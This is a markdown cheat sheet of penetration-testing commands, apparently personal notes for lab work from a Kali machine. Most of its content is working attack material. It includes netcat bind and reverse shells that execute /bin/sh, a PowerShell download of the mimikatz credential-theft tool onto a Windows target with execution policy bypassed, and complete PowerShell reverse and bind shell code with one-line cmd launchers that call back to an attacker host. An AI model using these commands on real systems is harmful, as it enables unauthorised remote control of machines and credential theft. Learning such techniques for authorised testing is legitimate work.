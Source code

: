 # Commands for establishing connections and transfering files
https://manpages.debian.org/bullseye/netcat-traditional/nc.1.en.html

## Connecting using netcat
### Listening:
```console
nc -nlvp $PORT
```

### Connecting:
```console
nc -nv $ADDRESS $PORT
```

- `-n` : numeric-only IP addresses, no DNS
- `-l` : listen mode, for inbound connects
- `-v` : verbose [use twice to be more verbose]
- `-p` : local port number (port numbers can be individual or ranges: lo-hi [inclusive])

## File transfer
### Receiving file:
```console
nc -nlvp $PORT > $FILENAME_RCPT
```

### Sending file:
```console
nc -np $PORT < $FILENAME_SEND
```

## Bind shell
### Listening:
```console
FILENAME=/bin/sh
nc -nlvp $PORT -e $FILENAME
```
`-e` : specify filename to exec after connect (use with caution). See the -c option for enhanced functionality.

### Connecting:
```console
nc -nv $ADDRESS $PORT
```

## Reverse bind shell
### Listening:
```console
nc -nlvp $PORT
```
### Connecting:
```console
FILENAME=/bin/sh
nc -nv $ADDRESS $PORT -e $FILENAME
```

## Downloading files from Kali to Windows target
### Setup http web server:
```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
sudo python3 -m http.server 80 &> /dev/null &
```

### Downloading:
```console
set SRC_URL=http://kali.vx/mimikatz.exe
set DST_PATH=%APPDATA%\mimikatz.exe
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile($env:SRC_URL,$env:DST_PATH)
```

## Windows reverse bind shell
### Setup listening in kali:
```console
nc -lnvp $PORT
```
### Powershell code:
```console
$ADDRESS='kali.vx'
$PORT=443
$CLIENT = New-Object System.Net.Sockets.TCPClient($ADDRESS,$PORT)
$STREAM = $CLIENT.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
$SENDBACK = (iex $DATA 2>&1 | Out-String )
$SENDBACK2 = $sendback + 'PS ' + (pwd).Path + '> '
$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2)
$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length)
$STREAM.Flush()
}
$CLIENT.Close()
```
### Running powershell from cmd:
```console
set ADDRESS=kali.vx
set PORT=443
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "$CLIENT = New-Object System.Net.Sockets.TCPClient($env:ADDRESS,$env:PORT);$STREAM = $CLIENT.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0){$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$SENDBACK = (iex $DATA 2>&1 | Out-String );$SENDBACK2 = $sendback + 'PS ' + (pwd).Path + '> ';$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2);$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length);$STREAM.Flush()};$CLIENT.Close();"
```

## Windows bind shell
### Powershell code:
```console
$PORT=443
$LISTENER = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$PORT)
$LISTENER.start()
$CLIENT = $LISTENER.AcceptTcpClient()
$STREAM = $CLIENT.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
$SENDBACK = (iex $DATA 2>&1 | Out-String )
$SENDBACK2 = $SENDBACK + 'PS ' + (pwd).Path + '> '
$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2)
$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length)
$STREAM.Flush()
}
$CLIENT.Close()
$LISTENER.Stop()
```

### Running powershell from cmd:
```console
set PORT=443
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "$LISTENER = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$env:PORT);$LISTENER.start();$CLIENT = $LISTENER.AcceptTcpClient();$STREAM = $CLIENT.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0){$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$SENDBACK = (iex $DATA 2>&1 | Out-String );$SENDBACK2 = $SENDBACK + 'PS ' + (pwd).Path + '> ';$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2);$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length);$STREAM.Flush()};$CLIENT.Close();$LISTENER.Stop();"
```

### Connecting from kali:
```console
nc -nv $ADDRESS $PORT
```
